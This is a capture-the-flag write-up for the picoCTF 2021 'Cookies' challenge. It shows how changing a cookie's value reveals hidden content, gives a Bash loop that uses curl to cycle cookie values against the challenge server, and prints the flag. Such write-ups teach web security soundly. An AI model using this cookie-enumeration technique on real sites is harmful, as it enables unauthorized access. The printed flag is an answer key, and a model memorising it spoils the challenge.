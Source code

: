 # :briefcase: Cookies

- **Difficulty**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2021`
- **Tag**: `None`
- **Author**: `madStacks`
- **Date**: `11/06/2025`

---

# :pencil: Description

Who doesn't love cookies? Try to figure out the best one. [link](https://play.picoctf.org/practice/challenge/173)

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Entered `snickerdoodle` into the input field and clicked the `Search` button`>` A message was displayed on the page

    ![image2](images/image2.png)

3. Checked the cookie `>` We have a cookie named `name` with the value `0`

    ![image3](images/image3.png)

4. Changed the cookie value to `1` and reloaded the page `>` A new message appeared

    ![image4](images/image4.png)

5. So the flag might be revealed at a certain value, therefore we can write a Bash script to automate the process.

    ```sh
    #!/bin/bash

    for i in {0..24}
    do
        cookie="name=$i"
        response=$(curl -s -H "Cookie: $cookie" "http://mercury.picoctf.net:21485/check")

        if echo "$response" | grep -q "picoCTF"; then
            echo "$response" | grep -i "picoCTF"
        fi
    done
    ```

6. We found it

    ![image5](images/image5.png)

---

# :white_flag: Flag

> picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

---

# :writing_hand: Notes

- `grep -i, --ignore-case` - Ignore case distinctions in patterns and input data, so that characters that differ only in case match each other.
- `grep -q, --quiet, --silent` - Quiet; do not write anything to standard output. Exit immediately with zero status if any match is found, even if an error was detected.

---

# :books: Resources

- [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html)
- [Requests: HTTP for Humans™ — Requests 2.32.4 documentation](https://requests.readthedocs.io/en/latest/)
- [GNU Grep 3.12](https://www.gnu.org/savannah-checkouts/gnu/grep/manual/grep.html)
- [curl](https://github.com/curl/curl/blob/master/docs/MANUAL.md)

---

# :hammer_and_wrench: Tools used

- `Bash` script
- `grep` - print lines that match patterns 
- `curl` - transfer a URL


